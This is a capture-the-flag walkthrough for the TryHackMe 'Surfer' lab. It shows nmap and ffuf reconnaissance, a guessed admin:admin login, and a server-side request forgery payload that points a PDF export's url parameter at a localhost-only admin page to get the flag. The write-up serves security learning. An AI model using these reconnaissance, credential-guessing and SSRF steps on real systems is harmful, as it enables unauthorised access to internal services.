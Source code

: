 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Surfer
# DESCRIPTION       . Surf some internal webpages to find the flag!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/surfer
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.174.63 -oN surfer
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f2887472ed4d3655bc96a8e4e876d22 (RSA)
|   256 d1ae5306afe8039cfb58288163bd6098 (ECDSA)
|_  256 3720f5ddc5fbce1fd00ad7de0491dc91 (ED25519)

80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/backup/chat.txt
| http-title: 24X7 System+
|_Requested resource was /login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We see that there's a disallowed entry in `/backup/chat.txt`

```
Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

- We don't have access to `/backup` directory itself, so I've decided to leave a fuzzer to check for other endpoints.

```
ffuf -u http://10.10.174.63/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

```
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
vendor                  [Status: 301, Size: 313, Words: 20, Lines: 10]
backup                  [Status: 301, Size: 313, Words: 20, Lines: 10]
internal                [Status: 301, Size: 315, Words: 20, Lines: 10]
```

- We don't have access to any of them.

- On the main web page, we're shown a login form. Based on the `chat.txt` file, my first guess was `admin:admin`

- After getting in, on one of the panels, we see `Internal pages hosted at /internal/admin.php`

- Also, if we generate a PDF export, the server is `127.0.0.1`, which is local host.

- If we navigate to `http://10.10.174.63/internal/admin.php`, we're getting the following message

```
This page can only be accessed locally.
```

- I tried using `X-Forwarded-For` with `172.17.0.2` (shown as the Host IP in the dashboard) and `127.0.0.1` but no success.
- I tried using `X-Forwarded-For` via Burp Suite but I got the same result (as expected). 

- However, I was playing around and I realised that in the export, information is also read from `server-info.php`.

- We know that the flag is in `/internal/admin.php`. 

- I've captured the request in Burp Suite and modified the url to the "correct" value.

```
url=http%3A%2F%2F127.0.0.1%2Finternal%2Fadmin.php
```

- After that, a report is generated with our flag.

